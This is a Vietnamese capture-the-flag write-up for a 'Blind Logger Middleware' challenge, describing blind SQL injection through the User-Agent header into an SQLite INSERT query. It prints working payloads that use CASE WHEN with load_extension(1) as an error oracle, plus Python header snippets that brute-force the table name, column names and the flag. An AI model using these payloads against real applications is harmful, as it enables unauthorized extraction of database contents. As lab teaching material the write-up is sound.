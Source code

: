 ### Link POC :  https://github.com/l3mnt2010/pswg-updating-/blob/main/ckHH/Blind%20Logger%20Middleware/POC.py

- Em test trên burp được ạ may Flag ngắn nên đỡ nhọc nên em thử chuyển qua viết POC đơn giản với python ạ

# Đề bài đọc kĩ thì em thấy có một đoạn INSERT dữ liệu cho table logger như sau:
                  INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('{ip_address}', '{user_agent}', 
                  '{referer}', '{url}', '{cookie}', '{created_at}')

Có vẻ như máy chủ sẽ lấy giá trị ip address,user_agent,referer,url,cookie,created_at của mình để insert log vào bảng này và nếu thành công sẽ trả ra Logged còn nếu sai sẽ Trả ra Error
+ Đầu tiên em nhận thấy các giá trị như user_agent,referer,cookie là dễ thay đổi nhất nên em sẽ chọn điểm inject đó là user_agent vì đoạn này có vẻ như ít check nhất em nghĩ là referer và cookie cũng được nhưng mà em chưa thử ạ:3

+ Đầu tiên em lợi dụng việc SQLite có cú pháp chèn nhiều bản ghi và dùng payload

                                        a',null,null,null,null), (null,'aaa
Lúc này câu lệnh sẽ trở thành
                  INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('ip_address', 'a',             
                   null,null,null,null),(null,'aaa','referer', '{url}', '{cookie}', '{created_at}')
Và câu lệnh của em hợp lệ nên em sẽ nhận về Logged
![Alt text](image.png)

Tiếp sau đó em sử dụng payload 
                                        a',null,null,CASE WHEN 1=1 THEN NULL ELSE load_extension(1) END), (null,'aaa
- Payload này em lấy trên payload all thing theo như em tìm hiểu thì hàm load_extension(1) để raise error khi gặp lỗi ạ
- Em nhận được kết quả
![Alt text](image-1.png)
- còn nếu case 1=0 thì em sẽ nhận được Error
![Alt text](image-2.png)

sau đó em dùng payload:
              headers = {
             'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(tbl_name,1,{i}) FROM sqlite_master WHERE type='table' AND 
             tbl_name NOT LIKE 'sqlite_%' AND tbl_name != 'logger') = '{payload + char}' THEN NULL ELSE load_extension(1) END), 
              (null,'aaa"
               } 
để xác định tên của Table, em nhận được kết quả bằng cách brute force
![Alt text](image-3.png)
tên table là flag ạ
- Ban đầu em dùng payload sai tìm ra được 1 tên cột là CREATE em làm mãi không ra @@
- Sau đó em tìm ra rên payload all thing em có hàm PRAGMA_TABLE_INFO('table')
Sẽ trả ra một cột name là tên cột của table nên em dùng payload:
                                     headers = {
                                     'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(name,1,{i}) FROM 
                                    PRAGMA_TABLE_INFO('flag') LIMIT 2,1) = '{payload + 
                                    char}' THEN NULL ELSE load_extension(1) END), (null,'aaa"
                                       }


- Ban đầu nếu để payload là LIMIT 0,1 thì em nhận được tên là id
![Alt text](image-4.png)
<em lười đổi đoạn tên cột nên vẫn để print table name ạ:v>

- Sau đó em để payload là LIMIT 1,1 thì em nhận được tên cột là secret
![Alt text](image-5.png)
Đoạn này em nghĩ đây chắc chắn chứa FLAG rồi nhưng mà em thêm LIMIT 2,1 nữa nhưng không có gì  @@

- Bây giờ thì em bờ rút FLAG với payload:

                     headers = {
                        'User-Agent': f"a',null,null,null,CASE WHEN (SELECT SUBSTRING(secret,1,{i}) FROM flag LIMIT 1) = '{payload + 
                           char}' THEN NULL ELSE load_extension(1) END), (null,'aaa"
                     }

- Đợi gần 1 phút thì em được kết quả:
![Alt text](image-6.png)
FLAG : CHH{blInD_sqLi_1N_UPDATE}
